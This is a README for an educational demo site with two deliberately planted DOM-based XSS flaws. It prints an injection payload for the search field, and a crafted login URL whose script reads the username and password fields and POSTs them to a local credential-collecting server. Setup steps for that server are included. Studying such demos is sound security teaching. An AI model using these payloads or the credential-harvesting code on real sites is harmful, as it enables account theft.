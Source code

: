 # No Man's Land Revenue Agency 

This is a demo of two DOM-based XSS vulnerabilities in a specifically crafted for this purpose website.
Imagine you're in No Man's Land and you need to access their revenue agency in order to fill in some tax statements...

## Instructions

To get started, navigate to No Man's Land Revenue Agency home page: [https://mtsanovv.github.io/nomanslandra/frontend/index.html](https://mtsanovv.github.io/nomanslandra/frontend/index.html). Feel free to play around with the website and figure out the XSS vulnerabilities yourself (or you can just check out the section below).

## XSS vulnerabilities in the website

- To inject malicious code via html element, open the [search page](https://mtsanovv.github.io/nomanslandra/frontend/search.html) and put the following string in the query input field and then press 'Search':
```article');$("#search").append("<img src=\"https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif\"/><iframe width=\"1\" height=\"1\" src=\"https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1&loop=1\"><\/iframe>");console.log('```

- To inject malicious code via URL and collect some credentials:
    1. Create a MySQL database using the ```storeCredentials.sql``` file from the ```backend``` directory and grant ```SELECT/INSERT/UPDATE/DELETE``` privileges for it to some user
    2. Navigate to the ```backend``` directory and configure the MySQL properties in ```server.js``` (make sure to use the user from step 1)
    3. Run ```node server.js``` (you may need to run first ```npm install express mysql cors``` in the ```backend``` directory)
    4. Navigate to the [malicious login page URL](https://mtsanovv.github.io/nomanslandra/frontend/login.html?continue=$.ajax({contentType:%27application/json%27,type:%27POST%27,url:%27http://localhost:3000/storeCredentials%27,data:JSON.stringify({username:$(%27input:eq(0)%27).val(),password:$(%22input:eq(1)%22).val()})});$(%22article%22).first().append(%27%3Cimg%20src=%22https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif%22/%3E%3Ciframe%20width=%221%22%20height=%221%22%20src=%22https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1%22%3E%3C/iframe%3E%27);console.log)

# Notes
- Created for educational purposes only and to demonstrate how bad XSS vulnerabilities can be
- Recommended browser engine: Chromium (Chrome). Gecko (Firefox) might also work but it has not been tested and WebKit (Safari) is not recommended due to odd behavior
- This is the unencoded JavaScript code for the 'continue' parameter in the malicious URL:
```$.ajax({contentType:'application/json',type:'POST',url:'http://localhost:3000/storeCredentials',data:JSON.stringify({username:$('input:eq(0)').val(),password:$("input:eq(1)").val()})});$("article").first().append('<img src="https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif"/><iframe width="1" height="1" src="https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1"></iframe>');console.log```
- The website is based on Telephasic by HTML5UP!
- Malicious code nspired by: [https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html](https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html)

# License
Creative Commons Attribution 3.0 Unported
[http://creativecommons.org/licenses/by/3.0/](http://creativecommons.org/licenses/by/3.0/)

*M.Tsanov, 2023*
